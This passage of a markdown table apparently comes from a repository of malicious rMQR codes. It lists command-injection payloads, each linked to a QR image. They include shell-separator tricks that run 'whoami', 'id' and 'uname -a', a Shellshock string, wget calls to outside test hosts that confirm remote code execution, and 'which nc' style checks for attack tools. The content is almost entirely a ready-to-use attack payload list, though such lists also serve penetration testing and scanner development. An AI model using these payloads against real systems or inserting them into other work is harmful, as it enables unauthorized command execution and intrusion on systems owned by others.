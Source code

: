 | `& uname -a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/425.png) |
| `&& uname -a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/426.png) |
| `uname -a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/427.png) |
| `\|/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/428.png) |
| `;\|/usr/bin/id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/429.png) |
| `;/usr/bin/id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/430.png) |
| `$;/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/431.png) |
| `() { :;}; wget http://135.23.158.130/.testing/shellshock.txt?vuln=11` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/432.png) |
| `\| wget <http://crowdshield.com/.testing/rce.txt`> | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/433.png) |
| `& wget http://crowdshield.com/.testing/rce.txt` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/434.png) |
| `; wget https://crowdshield.com/.testing/rce_vuln.txt` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/435.png) |
| ``$(`wget <https://crowdshield.com/.testing/rce_vuln.txt`)`>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/436.png) |
| `&& wget https://crowdshield.com/.testing/rce_vuln.txt` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/437.png) |
| `wget https://crowdshield.com/.testing/rce_vuln.txt` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/438.png) |
| ``$(`wget <https://crowdshield.com/.testing/rce_vuln.txt?req=22jjffjbn`)`>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/439.png) |
| `which curl` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/440.png) |
| `which gcc` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/441.png) |
| `which nc` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/442.png) |
| `which netcat` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/443.png) |
| `which perl` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/444.png) |
| `which python` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/445.png) |
| `which wget` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/446.png) |
| `whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/447.png) |
| `\| whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/448.png) |
| `; whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/449.png) |
| `' whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/450.png) |
| `' \|\| whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/451.png) |
| `' & whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/452.png) |
| `' && whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/453.png) |
| `'; whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/454.png) |
| `" whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/455.png) |
| `" \|\| whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/456.png) |
| `" \| whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/457.png) |
| `" & whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/458.png) |
| `" && whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/459.png) |
| `"; whoami` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/460.png) |
| ``$(`whoami`)`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/461.png) |
